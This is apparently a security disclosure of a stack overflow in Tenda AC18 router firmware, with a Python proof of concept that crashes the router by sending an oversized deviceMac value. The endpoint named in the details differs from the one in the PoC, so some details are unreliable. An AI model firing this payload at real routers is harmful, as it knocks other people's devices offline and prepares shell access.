 # Tenda AC18 V15.03.05.19 Stack overflow vulnerability

## Overview

- Manufacturer's address：https://www.tenda.com.cn/
- Firmware download address ： https://www.tenda.com.cn/download/detail-2683.html

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

Vulnerability occurs in /goform/addWifiMacFilter.        The contents obtained by the deviceMac parameter are passed to v11, and then the contents matched by v11  and put into the s without size checking, resulting in a stack overflow.

![](img/2.png#center)

## POC

Run poc

```python
import requests

url = 'http://IP:port/goform/WifiWpsOOB'

headers = {"Cookie": "password=You cookie"}
data = {
    'deviceMac': 'a' * 10000
}

r = requests.post(url=url, headers=headers, data=data)
hunzi = r.text
print(hunzi)
```

You can see the router crash, and finally you can write an exp to get a shell.
